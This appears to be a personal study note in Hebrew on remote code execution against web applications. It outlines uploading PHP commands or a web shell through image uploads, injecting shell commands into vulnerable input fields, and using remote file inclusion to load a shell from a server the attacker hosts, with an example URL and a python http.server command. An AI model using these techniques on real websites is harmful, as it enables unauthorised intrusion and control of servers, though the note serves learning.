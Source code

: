 RCE - Remote Code Execution
# המטרה
כאן המטרה זה להריץ פקודות מערכת כלשהי כמו whoami או ls כל פקודת מערכת בווינדוס או בלינוקס
# אינדיקציה
* פגיעות של RCE היא הרצת פקודה מרחוק ויכולה להתבצע בכמה דרכים:
1. פונקציונליות של העלאת קבצים 
2. נזהה שדה קלט פגיע ע"י בדיקה
3. ננסה להזריק פקודות מערכת ישירות לשדה קלט
	* זה טוב אם יש שיקוף של הקלט באתר למשל
4. ניצול של [[RFI]]

## העלאת קבצים
#### אופציה 1
* כל מנגנון של העלאת קבצים בין אם זה תמונות קבצים או כל דבר אחר ישר אמור להקפיץ לנו חשד שאפשר לבצע RCE
* גם פורום של תגובות יכול להיות פוטנציאל אל RCE
* נניח נראה אופציה של העלאת תמונות, ננסה להזריק פקודת מערכת בphp יחד עם התמונה
![[Pasted image 20250723000050.png]]
* לשים לב לכל מה שמסומן באדום בבקשה, ואם בתגובה התקבל שהתגובה נשלחה בהצלחה זה אומר שהתמונה עלתה
* כעת ננסה לגשת לתמונה
![[Pasted image 20250723000218.png]]
* הצלחנו אם הפקודה עבדה
* המטרה בסוף זה להצליח לבצע פקודות מערכת כמו בדוגמא echo ומכאן יש לנו שליטה כמו cmd ואפשר להגיע למה שביקשו
#### אופציה 2
במקום להעלות פקודת מערכת אחת, ננסה להעלות shell בphp (בסיסי למשל) ואז יהיה לנו גישה לcmd 
## שדה קלט פגיע
* אם נזהה שדה קלט מסוים ובמיוחד שהאתר הוא עם סיומת php למשל:
![[Pasted image 20250723000448.png]]
* זה אינדיקציה לאפשרות של RCE
* לשים לב שהדוגמא זה בGET והמשתנים בURL אבל ייתכן והם יהיו בגוף הבקשה בPOST
* מאחורי הקלעים יש מצב שהמערכת מקבלת את המשתנה ואז למשל ואז משלימה את הפקודה :
```
echo admin;
```
* ולכן אם מראש נבצע הפרדה כלשהי נוכל לעשות פקודות מערכת משלנו
![[Pasted image 20250723000858.png]]

## ניצול של RFI
* אם גילינו RFI שטוען קבצים משרת מרוחק שלי למשל:
````
http://example.com/index.php?module=http://server2.example.com/welcome.php
````

* כל שנצטרך לעשות הוא להכין קובץ shell בphp למשל
	* לחפש באינטרנט או לשאול AI
* להרים שרת http שממנו נטען את הקובץ (באמצעות הכתובת)
	* עובד במחשב רק אם יש פייתון מותקן (לא בVScode אלא ממש אפליקציית פייתון)
	* אם אין, להרים מkali linux יש שם באופן דיפולטיבי
```
python -m http.server 1234
```
* ואז ניגש אל הshell במיקום המדויק בעזרת RFI
